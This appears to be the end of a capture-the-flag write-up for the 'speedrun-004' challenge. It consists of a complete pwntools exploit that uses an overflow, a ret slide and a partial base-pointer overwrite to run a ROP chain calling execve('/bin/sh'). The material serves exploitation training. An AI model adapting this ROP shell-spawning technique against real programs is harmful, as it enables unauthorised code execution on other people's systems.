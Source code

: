 ## Exploit

Putting it all together, we get the following exploit:
```
from pwn import *

target = process('./speedrun-004')
#gdb.attach(target, gdbscript = 'b *0x400baf')

# Establish rop gadgets
popRax = p64(0x415f04)
popRdi = p64(0x400686)
popRsi = p64(0x410a93)
popRdx = p64(0x44a155)

syscall = p64(0x40132c)

ret = p64(0x400416)

# 0x000000000048d301 : mov qword ptr [rax], rdx ; ret
mov = p64(0x48d301)

# bss adress we write to
bss = p64(0x6b6030)

binsh = p64(0x0068732f6e69622f)

# Our Rop chain
# Checkout https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1
# for more details on how to make it
rop = ""
rop += popRax
rop += bss
rop += popRdx
rop += binsh
rop += mov

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += bss

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall

# Make the payload
# Append the rop chain to after the ret gadget slide
# Overwrite least significant byte of saved base pointer with 0x00
payload = ret*((256 - len(rop)) / 8) + rop + "\x00"

# Specify we are sending 257 bytes
target.sendline('257')

# Pause to ensure I/O purposes
raw_input()

# Send the payload
target.sendline(payload)
```